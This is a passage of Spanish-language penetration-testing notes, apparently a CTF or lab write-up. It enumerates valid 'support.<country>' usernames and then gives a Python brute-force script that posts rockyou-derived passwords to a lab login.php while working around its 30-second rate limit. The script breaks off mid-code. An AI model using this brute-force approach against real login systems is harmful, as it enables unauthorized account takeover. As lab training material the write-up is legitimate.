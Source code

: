 ```bash
support.vg
support.vi
support.wf
support.eh
support.ye
support.zm
support.zw
```

Fuente: [https://datahub.io/core/country-list](https://datahub.io/core/country-list)

y se tiene los siguientes usuarios validos:

![[Pasted image 20230120225558.png]]

## ATAQUE DE FUERZA BRUTA LOGIN

Ya tenemos usuarios validos y filtramos el diccionario rockyou segun la politica de conrtaseñas, el login tiene una proteccion de **rate limit** de 30 segundos no incremental, usaremos el siguiente script para realizar el ataque:

```bash
import requests
import time

#colors
HEADER = '\033[95m'
OKBLUE = '\033[94m'
OKCYAN = '\033[96m'
OKGREEN = '\033[92m'
WARNING = '\033[93m'
FAIL = '\033[91m'
ENDC = '\033[0m'
BOLD = '\033[1m'
UNDERLINE = '\033[4m'

# file that contain user:pass
userpass_file = "userpass.txt"

# create url using user and password as argument
url = "http://138.68.167.82:30771/login.php"

# rate limit blocks for 30 seconds
lock_time = 30

# message that alert us we hit rate limit
lock_message = "Too many login failures"

# read user and password
with open(userpass_file, "r") as fh:
    for fline in fh:
        # skip comment
        fline = fline.rstrip()
        if fline.startswith("#"):
            continue

        # take username
        username = fline.split(":")[0]

        # take password, join to keep password that contain a :
        password = ":".join(fline.split(":")[1:])

        # prepare POST data
        data = {
```